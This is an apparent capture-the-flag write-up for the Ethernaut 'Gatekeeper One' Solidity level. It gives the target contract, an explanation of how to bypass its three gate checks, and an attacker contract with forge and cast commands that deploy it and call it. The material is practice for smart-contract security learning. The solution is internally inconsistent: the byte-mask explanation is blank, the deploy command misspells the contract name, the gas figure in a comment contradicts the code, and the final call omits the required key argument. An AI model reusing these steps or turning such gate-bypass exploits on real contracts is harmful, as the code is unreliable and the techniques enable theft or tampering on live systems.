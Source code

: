 ## Gatekeeper One Level Outline

**Difficulty : 5/10**

Make it past the gatekeeper and register as an entrant to pass this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9b261b23cE149422DE75907C6ac0C30cEc4e652A)

## Solution

To pass the first modifier `gateOne()`, the transaction needs to come from a smart contract.

To pass the second modifier `gateTwo()`, the remaining gas needs to be divisible by 8191. To satisfy this, we will use [foundry's debugger](https://book.getfoundry.sh/forge/debugger.html?highlight=debugger#debugger) to find the right gas amount in order to pass the check.

To pass the third modifier `gateThree()`, we need to byte mask our address with `` to pass all three checks.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    GateKeeperOne gateKeeper;

    constructor(address _gateKeeper) {
        gateKeeper = GateKeeperOne(_gateKeeper);
    }

    // 0x8208b86dA007aa26 (last 4 bytes of addr)
    // 7747 (gas used found from debugger) + 57337 (8191 * 7)
    function enter(bytes8 addr) public {
        bytes8 key = addr & 0xFFFFFFFF0000FFFF;
        gateKeeper.enter{gas: 7747}(key);
    }
}

interface GateKeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}
```

##### 2. 

```console
forge create src/Contract.sol:Attacl --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "enter()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## [:arrow_left: Back To Main Menu](../README.md)
